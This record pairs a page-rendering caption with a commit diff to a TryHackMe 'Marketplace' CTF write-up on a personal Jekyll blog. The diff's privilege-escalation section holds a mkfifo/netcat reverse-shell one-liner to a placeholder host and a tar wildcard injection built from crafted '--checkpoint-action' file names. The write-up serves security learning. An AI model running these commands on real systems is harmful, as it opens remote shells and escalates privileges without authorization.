

Before and after one commit to bvr0n/bvr0n.github.io, a Jekyll site: the page built from _posts/thm/2020-11-13-marketplace.md, in a window 1280 px wide and 1400 px high, scrolled down 3306 px. Shown: the part 157-1134 px from the top of the window, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Update 2020-11-13-marketplace.md

````diff
--- a/_posts/thm/2020-11-13-marketplace.md
+++ b/_posts/thm/2020-11-13-marketplace.md
@@ -104,7 +104,7 @@ Table: users
 ```
 
 
-## Privilege Escalation !
+## Privilege Escalation :
 
 ##### User Michael :
 
@@ -128,8 +128,8 @@ Tar wildcards is very dangerous, [Check Here](https://book.hacktricks.xyz/linux-
 
 ```
 jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 8080 >/tmp/f" > shell.sh
-jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
-jake@the-marketplace:/opt/backups$ echo "" > --checkpSoint=1
+jake@the-marketplace:/opt/backups$ touch "./--checkpoint-action=exec=sh shell.sh"
+jake@the-marketplace:/opt/backups$ touch "./--checkpoint=1"
 ```
 ```
 bvr0n@kali:~$ nc -lnvp 8080
````
